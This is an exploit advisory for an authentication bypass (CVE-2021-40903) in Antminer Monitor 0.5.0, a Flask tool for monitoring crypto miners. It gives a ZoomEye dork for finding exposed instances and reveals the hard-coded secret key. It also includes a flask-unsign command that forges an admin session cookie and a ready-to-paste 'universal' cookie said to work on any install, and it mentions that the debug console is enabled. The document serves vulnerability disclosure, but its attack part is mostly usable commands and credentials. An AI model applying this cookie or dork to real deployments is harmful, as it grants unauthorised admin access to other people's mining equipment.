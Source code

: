 #  Exploit Title: Antminer Monitor 0.5.0 - Authentication Bypass
#### CVE: CVE-2021-40903

Date: 09/06/2021

Dork:https://www.zoomeye.org/searchResult?q=%22antminer%20monitor%22
Exploit Author: CQR.company / Vulnz.

Vendor Homepage: https://github.com/anselal/antminer-monitor, https://twitter.com/intent/follow?screen_name=AntminerMonitor

Software Link: https://github.com/anselal/antminer-monitor, https://soulis.tech/

Version: 0.5.0

Tested on: Windows, Linux, Macos

Software is commonly used for Monitoring antminers and could easily be
found in zoomeye ( 800), shodan ( 500).
For now this is the most popular antminer monitoring tool.
Vulnerability in Antminer Monitor exists because of backdoor or
misconfiguration done

by developer inside settings file in flask server.

Settings file has a predefined secret string, which would be randomly
generated, however it is static in this
build.antminer-monitor/settings.py at
5c62e1064af30674bacb9e1917d5980efbde1fcd · anselal/antminer-monitor ·
GitHub <https://github.com/anselal/antminer-monitor/blob/5c62e1064af30674bacb9e1917d5980efbde1fcd/config/settings.py>

Secret key is 'super secret key'.

Based on this information we can craft authorization bypass cookies.

Using software flask-unsing we can generate cookie which will provide
you admin access.

`flask-unsign --sign --cookie "{'_fresh': True, '_id':
b'df230a95eb5318d31fa83690c667cfd6a824dbfe61949bf30b9d75e71c6ea20714b87113fcafe2340df9a8a6f3567e7a2faedc2c12d05e4e338558e47afe84f6',
'_user_id': '1', 'csrf_token':
b'15d0261b7f3f40849920ebb94f7a2368397f76ff'}" --secret "super secret
key"
`
Additionally you can use this universal cookie to access web interface
of flask application.

This cookie can work on all systems in "session" field.

`.eJw9j81Og0AURl_FzLoLfmTTpAubaQkm9xLMpeTeTaNAGQdGE9BQp-m7O3HhA3zfOeemzpe5X4zaXl6npd-o83untjf18Ka2SnL-Ab83JZ0mtrUHMiP4o2MaPNpxZc8JJuhEiyl1EUn-7IT4WlKVsWMPeZGJbmOh9speJqZiRX-I2A4p0MGLQyOuDoxqDayMyRgMOyROhToDTow0LxYcXMFVKzZ1JAS-1HVc5nWEyTHwhkgs79Q9uH8v_fwXoGK1Ue0yX85fn2P_8V8EdBpBFwk0RSoWHeqnR9RjBnY_sSsyzDkNlqFu8CV1DoOjDLvwfv8FnZ1jTQ.YS2Hvw.a-bvt7Y4e2kKNs0iXkRxHnRRJAU`


In addition DEBUG = True which means /console works, however it needs pin.
